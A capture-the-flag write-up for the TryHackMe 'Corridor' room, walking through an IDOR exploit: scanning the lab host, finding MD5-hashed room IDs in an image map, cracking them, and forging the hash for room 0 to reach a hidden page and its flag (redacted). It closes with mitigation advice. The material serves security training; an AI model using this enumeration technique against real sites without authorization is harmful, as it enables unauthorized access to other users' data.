



# Corridor


> You have found yourself in a strange corridor. Can you find your way back to where you came?

In this challenge, you will explore potential IDOR vulnerabilities. Examine the URL endpoints you access as you navigate the website and note the hexadecimal values you find (they look an awful lot like a hash, don't they?). This could help you uncover website locations you were not expected to access.

**Room link:** https://tryhackme.com/room/corridor

---

## 1. Verify the machine is running

Start the machine and check connectivity:

```bash
ping -c 3 10.128.171.134
```

- `-c 3` sends 3 ICMP echo requests and then stops (instead of pinging indefinitely)

```
PING 10.128.171.134 (10.128.171.134) 56(84) bytes of data.
64 bytes from 10.128.171.134: icmp_seq=1 ttl=62 time=23.8 ms
64 bytes from 10.128.171.134: icmp_seq=2 ttl=62 time=10.3 ms
64 bytes from 10.128.171.134: icmp_seq=3 ttl=62 time=8.99 ms

--- 10.128.171.134 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2003ms
rtt min/avg/max/mdev = 8.985/14.363/23.756/6.664 ms
```

The machine is running.

## 2. Port scanning

```bash
nmap -sC -sV 10.128.171.134
```

- `-sC` runs the default scripts
- `-sV` detects service versions

```
Starting Nmap 7.99 ( https://nmap.org ) at 2026-10-02 21:45 +0200
Nmap scan report for 10.128.171.134
Host is up (0.011s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Werkzeug httpd 2.0.3 (Python 3.10.2)
|_http-title: Corridor

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.41 seconds
```

Only port **80** is open, running **Werkzeug httpd 2.0.3 (Python 3.10.2)**.

## 3. Inspecting the website

Open the site in a browser and inspect the source, or use `curl`:

```bash
curl -i 10.128.171.134
```

- `-i` includes the HTTP response headers in the output (not just the body)

<details>
<summary>Full response</summary>

```html
HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 3213
Server: Werkzeug/2.0.3 Python/3.10.2
Date: Fri, 02 Oct 2026 19:51:57 GMT

<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="utf-8">
    <meta name="viewport" content="width=device-width, initial-scale=1, shrink-to-fit=no">
    <link rel="stylesheet" href="https://stackpath.bootstrapcdn.com/bootstrap/4.5.0/css/bootstrap.min.css"
        integrity="sha384-9aIt2nRpC12Uk9gS9baDl411NQApFmC26EwAOH8WgZl5MYYxFfc+NcPb1dKGj7Sk" crossorigin="anonymous">
    <title>Corridor</title>

    <link rel="stylesheet" href="/static/css/main.css">
</head>

<body>


    <map name="image-map">
        <area target="" alt="c4ca4238a0b923820dcc509a6f75849b" title="c4ca4238a0b923820dcc509a6f75849b" href="c4ca4238a0b923820dcc509a6f75849b" coords="257,893,258,332,325,351,325,860" shape="poly">
        <area target="" alt="c81e728d9d4c2f636f067f89cc14862c" title="c81e728d9d4c2f636f067f89cc14862c" href="c81e728d9d4c2f636f067f89cc14862c" coords="469,766,503,747,501,405,474,394" shape="poly">
        <area target="" alt="eccbc87e4b5ce2fe28308fd9f2a7baf3" title="eccbc87e4b5ce2fe28308fd9f2a7baf3" href="eccbc87e4b5ce2fe28308fd9f2a7baf3" coords="585,698,598,691,593,429,584,421" shape="poly">
        <area target="" alt="a87ff679a2f3e71d9181a67b7542122c" title="a87ff679a2f3e71d9181a67b7542122c" href="a87ff679a2f3e71d9181a67b7542122c" coords="650,658,644,437,658,652,655,437" shape="poly">
        <area target="" alt="e4da3b7fbbce2345d7772b0674a318d5" title="e4da3b7fbbce2345d7772b0674a318d5" href="e4da3b7fbbce2345d7772b0674a318d5" coords="692,637,690,455,695,628,695,467" shape="poly">
        <area target="" alt="1679091c5a880faf6fb5e6087eb1b2dc" title="1679091c5a880faf6fb5e6087eb1b2dc" href="1679091c5a880faf6fb5e6087eb1b2dc" coords="719,620,719,458,728,471,728,609" shape="poly">
        <area target="" alt="8f14e45fceea167a5a36dedd4bea2543" title="8f14e45fceea167a5a36dedd4bea2543" href="8f14e45fceea167a5a36dedd4bea2543" coords="857,612,933,610,936,456,852,455" shape="poly">
        <area target="" alt="c9f0f895fb98ab9159f51fd0297e236d" title="c9f0f895fb98ab9159f51fd0297e236d" href="c9f0f895fb98ab9159f51fd0297e236d" coords="1475,857,1473,354,1537,335,1541,901" shape="poly">
        <area target="" alt="45c48cce2e2d7fbdea1afc51c7c6ad26" title="45c48cce2e2d7fbdea1afc51c7c6ad26" href="45c48cce2e2d7fbdea1afc51c7c6ad26" coords="1324,766,1300,752,1303,401,1325,397" shape="poly">
        <area target="" alt="d3d9446802a44259755d38e6d163e820" title="d3d9446802a44259755d38e6d163e820" href="d3d9446802a44259755d38e6d163e820" coords="1202,695,1217,704,1222,423,1203,423" shape="poly">
        <area target="" alt="6512bd43d9caa6e02c990b0a82652dca" title="6512bd43d9caa6e02c990b0a82652dca" href="6512bd43d9caa6e02c990b0a82652dca" coords="1154,668,1146,661,1144,442,1157,442" shape="poly">
        <area target="" alt="c20ad4d76fe97759aa27a0c99bff6710" title="c20ad4d76fe97759aa27a0c99bff6710" href="c20ad4d76fe97759aa27a0c99bff6710" coords="1105,628,1116,633,1113,447,1102,447" shape="poly">
        <area target="" alt="c51ce410c124a10e0db5e4b97fc2af39" title="c51ce410c124a10e0db5e4b97fc2af39" href="c51ce410c124a10e0db5e4b97fc2af39" coords="1073,609,1081,620,1082,459,1073,463" shape="poly">
    </map>

</body>
</html>
```

</details>



The page contains an image map where every door links to a 32-character hexadecimal value.

## 4. Identifying the hashes

I saved all the `href` values into a text file:

```
c4ca4238a0b923820dcc509a6f75849b
c81e728d9d4c2f636f067f89cc14862c
eccbc87e4b5ce2fe28308fd9f2a7baf3
a87ff679a2f3e71d9181a67b7542122c
e4da3b7fbbce2345d7772b0674a318d5
1679091c5a880faf6fb5e6087eb1b2dc
8f14e45fceea167a5a36dedd4bea2543
c9f0f895fb98ab9159f51fd0297e236d
45c48cce2e2d7fbdea1afc51c7c6ad26
d3d9446802a44259755d38e6d163e820
6512bd43d9caa6e02c990b0a82652dca
c20ad4d76fe97759aa27a0c99bff6710
c51ce410c124a10e0db5e4b97fc2af39
```

They look like hashes, so I used `hash-identifier` to find out which type:

```bash
hash-identifier
```

```
 HASH: c51ce410c124a10e0db5e4b97fc2af39

Possible Hashs:
[+] MD5
[+] Domain Cached Credentials - MD4(MD4(($pass)).(strtolower($username)))
```

It is most likely a plain **MD5** hash.

## 5. Cracking the hashes

I pasted the values into [CrackStation](https://crackstation.net/):



Every hash resolves to a simple number (the room ID): `1` to `13`. Since the IDs are sequential, the next candidates are the neighbouring numbers: **14** and **0**.

## 6. Forging new hashes

Hash the candidate numbers with MD5:

```bash
echo -n '14' | md5sum
# aab3238922bcc25a6f606eb525ffdc56

echo -n '0' | md5sum
# cfcd208495d565ef66e7dff9f98764da
```

- `-n` stops `echo` from appending a trailing newline — if left in, it would get hashed too and produce a different (wrong) MD5 value
- `md5sum` computes the MD5 hash of its input and prints it

## 7. Accessing the hidden rooms

Room **14** does not exist:

```bash
curl -i 10.128.171.134/aab3238922bcc25a6f606eb525ffdc56
```

(`-i` again, to see the status code in the response headers)

```
HTTP/1.0 404 NOT FOUND
...
<title>404 Not Found</title>
<h1>Not Found</h1>
```

Room **0** does:

```bash
curl -i 10.128.171.134/cfcd208495d565ef66e7dff9f98764da
```

```html
HTTP/1.0 200 OK
...
<style>
    body{
        background-image: url("/static/img/empty_room.png");
        background-size:  cover;
    }
    ...
</style>
<h1>
    flag{...}
</h1>
```



The page reveals the flag for room `0` (blurred in the screenshot above).

## Takeaways

This is a simple example of **IDOR (Insecure Direct Object Reference)**: the application exposes direct references to internal objects (room IDs) without proper authorization checks.

Hashing the IDs with unsalted MD5 is **obfuscation, not security**. The values are predictable and trivially reversible, so anyone can generate valid references for objects they should not reach.

**Mitigation:**
- Enforce server-side access control on every object request.
- Use unpredictable identifiers (e.g. random UUIDs) in addition to, not instead of, authorization checks.